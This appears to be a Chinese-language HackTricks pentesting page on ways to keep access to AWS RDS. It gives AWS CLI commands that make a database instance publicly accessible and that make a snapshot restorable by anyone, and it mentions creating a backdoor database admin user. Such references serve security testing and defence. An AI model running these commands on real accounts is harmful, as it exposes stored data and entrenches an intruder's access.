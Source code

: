 # AWS - RDS 持久性

{{#include ../../../banners/hacktricks-training.md}}

## RDS

有关更多信息，请查看：

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### 使实例公开可访问： `rds:ModifyDBInstance`

具有此权限的攻击者可以**修改现有的 RDS 实例以启用公共可访问性**。
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### 在数据库中创建管理员用户

攻击者可以**在数据库中创建一个用户**，即使主用户的密码被修改，他也**不会失去对数据库的访问**。

### 使快照公开
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
